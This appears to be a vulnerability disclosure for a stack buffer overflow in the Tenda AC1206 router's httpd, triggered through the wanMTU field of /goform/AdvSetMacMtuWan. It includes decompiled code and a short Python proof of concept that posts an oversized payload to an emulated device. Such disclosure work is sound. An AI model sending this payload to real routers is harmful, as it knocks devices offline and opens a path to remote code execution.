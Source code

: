 # Stack-Based Buffer Overflow in Tenda AC1206 1200M 11ac Wi-Fi 5 Router (AC1206V1.0RTL_V15.03.06.23)
## Overview
Due to the lack of restrictions on certain parameters in the `check_param_changed` function and a lack of proper bounds checking, a stack overflow may occur. An unauthenticated remote attacker can cause a remote code execution(RCE) or remote denial of service (DoS) attack by crafting HTTP requests.   

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC1206 Device
+ **Affected Version**: AC1206V1.0RTL_V15.03.06.23
+ **Attack Vector**: Exploiting carefully crafted payloads to cause a stack-based buffer overflow via functions with no boundary checks and insufficient parameter restrictions
+ **Impact**:
    - Remote Code Execution(RCE)
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/AdvSetMacMtuWan`
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: Red-Shield Security Lab(天翼云红盾实验室)
+ **Firmware**: [https://www.tenda.com.cn/material/show/2766](https://www.tenda.com.cn/material/show/2766)

## Discovery
The vulnerability exists in the `squashfs-root/bin/httpd` file. The function call path that triggers the vulnerability is as follows
`main → initWebs → formDefineTendDa → fromAdvSetMacMtuWan → check_param_changed`

``` c
int main()
{
  ...
  initWebs();
  ...
}

int initWebs()
{
  ...
  formDefineTendDa();
  ...
}

void formDefineTendDa()
{
  ...
  websFormDefine("AdvSetMacMtuWan", (void (*)(webs_t, char_t *, char_t *))fromAdvSetMacMtuWan);
  ...
}


void fromAdvSetMacMtuWan(webs_t wp, char_t *path, char_t *query)
{
  ...
  WAN_ARGUMENT wan_set_param[2]; // [sp+D0h] [+D0h] BYREF   // corrupted buffer
  GetValue("wans.flag", mib_value);
  wann = atoi(mib_value);
  for ( i = 0; i < wann; ++i )
  {
    wan_id = i + 1;
    if ( check_param_changed(wp, i + 1, &wan_set_param[i]) )  // vul func
    ...
}

int check_param_changed(webs_t wp, int wan_id, WAN_ARGUMENT *wan_param)
{
  ...
  sprintf(mib_name, "wan%d.connecttype", wan_id);
  GetValue(mib_name, wan_param);
  wan_connect_type = atoi((const char *)wan_param);
  if ( wan_param )
  {
    if ( wan_id == 1 )
    {
      Var = websGetVar(wp, "wanMTU", byte_50F88C);
      strcpy(wan_param->wan_mtu, Var);
      ...
}
```

The program retrieves the user input parameter `wanMTU`. The `strcpy` function in the figure below copies content from `Var` to `wan_param->wan_mtu` without checking the size of the target buffer. `wan_param` is the struct pointer on the stack from the caller function, which points to the address on the caller function stack. The actual size of `wan_mtu` is only 8 bytes, but there is no limit on the length of bytes written from user input during copying, thus leading to a potential stack overflow.

```
The struct of `wan_param`:
00000000 struct __attribute__((aligned(4))) wan_argument // sizeof=0x60
00000000 {                                     
00000000     int wan_connecttype[4];            
00000010     char wan_mtu[8];
00000018     char wan_speed[8];
00000020     char clone_type[8];
00000028     char def_mac[18];
0000003A     char device_mac[18];
0000004C     char mac[18];
0000005E     // padding byte
0000005F     // padding byte
00000060 };
```

 If the length of `wanMTU` exceeds the buffer of `wan_param->wan_mtu`, an overflow will occur.




## Steps to Reproduce
Construct the following payload using Python:

```python
import requests
from pwn import *
context.log_level = 'debug'


url = "http://192.168.207.135/goform/AdvSetMacMtuWan"

cookie = {"Cookie":"password=xpqmji"}

data = {
    "wanMTU": cyclic(0x400),
    }



response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)

```   

Use QEMU to emulate the `httpd` extracted from `US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin` and reproduce this with the above poc file.


As shown in the figure below, the emulation is successful.

![](./image/p1.png)

Use this script to trigger the stack overflow.

![](./image/p2.png)

## Impact
Unauthenticated remote attackers can execute a remote code execution(RCE) or a Denial of Service (DoS) attack through crafted parameters.

